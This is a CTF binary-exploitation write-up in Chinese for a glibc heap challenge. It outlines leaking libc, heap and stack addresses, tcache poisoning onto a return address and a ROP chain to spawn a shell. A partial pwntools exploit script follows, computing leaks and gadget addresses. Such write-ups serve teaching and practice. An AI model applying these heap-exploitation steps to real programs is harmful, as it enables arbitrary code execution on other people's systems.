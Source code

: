 1. 利用unsorted bin 泄露libc基址
2. 利用tcache的PROTECT_PTR机制泄露堆地址，调试计算heap基址
3. 利用environ泄露栈地址
这里想直接覆盖到edit函数的返回地址的，但是由于内存对齐，只能覆盖到rbp。往上是canary，往下覆盖不到返回地址
但create函数栈帧和edit函数相同，覆盖到rbp又会导致create函数创建堆时将返回地址当成tcache key从而置为0
4. 利用栈泄露ptr地址
5. 将堆分配到ptr上，修改某个堆块的指针，修改为edit返回地址的地址
6. 然后写个rop的链子，成功getshell

### exp
```python
from pwn import *

#context.terminal =['tmux','splitw','-h']
context.log_level = 'debug'

p = process("./heap")

elf = ELF("./heap")
libc = ELF("./libc.so.6")

def create(index,size):
        p.sendlineafter(b">>",b'1')
        p.sendlineafter(b'idx? ',str(index).encode())
        p.sendlineafter(b'size? ',str(size).encode())

def delete(index):
        p.sendlineafter(b">>",b'2')
        p.sendlineafter(b'idx? ',str(index).encode())

def show(index):
        p.sendlineafter(b">>",b'3')
        p.sendlineafter(b'idx? ',str(index).encode())

def edit(index,content):
        p.sendlineafter(b">>",b'4')
        p.sendlineafter(b'idx? ',str(index).encode())
        p.sendlineafter(b'content : ',content)

# leak libc_base
create(0,0x1000)
create(1,0x10)
delete(0)
show(0)
p.recvuntil(b'content : ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak - 2206944
log.success("libc_base: " + hex(libc_base))

# leak heap_base
delete(1)
show(1)
p.recvuntil(b'content : ')
leak = u64(p.recv(5).ljust(8,b'\x00'))
heap_base = (leak<<12)-0x1000
log.success("heap_base : " + hex(heap_base))

environ = libc_base + libc.sym['environ']
pop_rdi = libc_base + 0x2a3e5
ret = libc_base + 0x2a3e6
system_addr = libc_base + libc.sym['system'] 
binsh = libc_base + next(libc.search(b'/bin/sh\x00'))

```